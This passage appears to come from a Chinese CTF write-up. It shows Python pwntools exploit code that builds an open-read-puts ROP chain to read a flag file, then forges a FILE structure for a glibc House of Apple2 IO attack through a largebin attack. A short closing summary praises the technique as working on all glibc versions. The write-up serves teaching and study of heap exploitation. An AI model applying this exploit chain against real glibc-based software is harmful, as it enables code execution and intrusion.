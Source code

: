 ```plain
orw_addr=heap_base+0x2090
orw=b'./flag\x00\x00'
orw+=p64(pop_rdx_r12)+p64(0)+p64(chunk0-0x10)
orw+=p64(pop_rdi)+p64(orw_addr)
orw+=p64(pop_rsi)+p64(0)
orw+=p64(open_addr)

orw+=p64(pop_rdi)+p64(3)
orw+=p64(pop_rsi)+p64(orw_addr+0x100)
orw+=p64(pop_rdx_r12)+p64(0x50)+p64(0)
orw+=p64(read_addr)

orw+=p64(pop_rdi)+p64(orw_addr+0x100)
orw+=p64(puts_addr)

edit(9,orw)


pl=p64(0)+p64(leave_ret)+p64(0)+p64(io_all-0x20)
pl+=p64(0)*2+p64(0)+p64(orw_addr) #chunk0+0x48
pl+=p64(0)*4
pl+=p64(0)*3+p64(lock)
pl+=p64(0)*2+p64(chunk0+0xe0)+p64(0)
pl+=p64(0)*4
pl+=p64(0)+p64(wfile) 
pl+=p64(0)*0x1c+p64(chunk0+0xe0+0xe8)     #chunk0+0xe0
pl+=p64(0)*0xd+p64(magic_gadget)

edit(5,pl)#4
add(8,0x500,'bbbb')

add(10,0x440,'aaaa')

choice(add_idx)

sla('How much?\n',str(20))

itr()
```

## 总结

House of apple2 至今仍然是 IO 利用中最好用的手法之一，只需要一次 largebin attack 的简便手法以及巧妙的 IO 函数调用链也是它至今仍全版本通用的秘方
